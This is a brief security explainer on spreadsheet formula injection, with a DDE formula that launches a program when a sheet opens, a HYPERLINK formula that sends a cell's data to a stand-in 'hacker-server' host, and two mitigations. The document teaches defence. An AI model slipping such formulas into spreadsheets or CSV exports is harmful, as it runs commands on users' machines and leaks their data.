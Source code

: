 # Formula injection

## How this works

When user open a spreadsheet (excel, csv etc), the spreadsheet program (excel, openoffice, libreoffice, etc) would try to process formulas (that begin with `=`, `+`, `-` or `@`).

## Example

```excel
=cmd|’ /C notepad’!’A1′ 
```

The DDE (Dynamic Data Exchange) function can execute applicaiton command.  
This would open the notepad program whenever user open the spreadsheet

```excel
=HYPERLINK("http://hacker-server?leak="&B2, "a link")
```

The `HYPERLINK` function can create a shortcut to a document in the network.  
This would leak the data in B2 to hacker server whenever user click to the cell.

## Mitigation

* Prohibit cells begin with `=`, `+`, `-`, `*`, `/` or `@`
* Add apostrophe `'` at the beginning of the cell to tell that this is not a formula
